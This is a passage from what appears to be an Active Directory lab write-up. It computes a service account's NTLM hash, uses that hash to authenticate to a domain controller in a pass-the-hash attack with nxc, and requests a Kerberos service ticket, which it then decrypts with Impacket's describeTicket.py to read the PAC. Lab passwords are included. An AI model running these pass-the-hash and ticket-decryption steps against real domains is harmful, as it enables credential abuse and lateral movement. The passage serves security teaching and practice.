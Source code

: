 ```
~$ python3        

Python 3.13.5 (main, Jun 25 2025, 18:55:22) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import hashlib
>>> import binascii
>>> pw = "P@ssw0rd_f0r_SQL-antennae"
>>> binascii.hexlify(hashlib.new('md4', pw.encode('utf-16le')).digest()).decode()

'dafede3a0d35ddb28147bd418e4cd53b'
```

We can verify that this is indeed the correct `NTLM` hash by using it to authenticate to the domain controller using [pass-the-hash](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/):

```
~$ nxc ldap dc01.antennae.rv -u 'svc_sql' -H 'dafede3a0d35ddb28147bd418e4cd53b'
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\svc_sql:dafede3a0d35ddb28147bd418e4cd53b 
```

Next, we can request for a service ticket for the `MSSQLSvc/sql01.antennae.rv` SPN using `kvno` like we did in [#roasting-the-hard-way](#roasting-the-hard-way).

```
~$ echo 'BZCJsopuOPgH' | kinit 'chloe.lim'@ANTENNAE.RV
Password for chloe.lim@ANTENNAE.RV: 

~$ kvno 'MSSQLSvc/sql01.antennae.rv'
MSSQLSvc/sql01.antennae.rv@ANTENNAE.RV: kvno = 2

~$ klist                            
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: chloe.lim@ANTENNAE.RV

Valid starting       Expires              Service principal
09/07/2025 11:19:28  09/07/2025 21:19:28  krbtgt/ANTENNAE.RV@ANTENNAE.RV
        renew until 09/08/2025 11:19:28
09/07/2025 11:19:38  09/07/2025 21:19:28  MSSQLSvc/sql01.antennae.rv@ANTENNAE.RV
        renew until 09/08/2025 11:19:28
```

> All Kerberos tickets are stored in `/tmp/krb5cc_$(id -u)` by default.

We can now proceed with decrypting the service ticket, and parsing the `PAC` structure using `describeTicket.py`:

```
~$ describeTicket.py /tmp/krb5cc_1000 --rc4 'dafede3a0d35ddb28147bd418e4cd53b'
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 2

[...snip...]

[*]   LoginInfo                   
[...snip...]
[*]     Account Name              : chloe.lim
[*]     Groups (decoded)          : (513) Domain Users
[*]     User Flags                : (32) LOGON_EXTRA_SIDS
[*]     User Session Key          : 00000000000000000000000000000000
[*]     Logon Server              : DC01
[*]     Logon Domain Name         : antennae
[*]     Logon Domain SID          : S-1-5-21-1843653573-2831615454-1469364877
```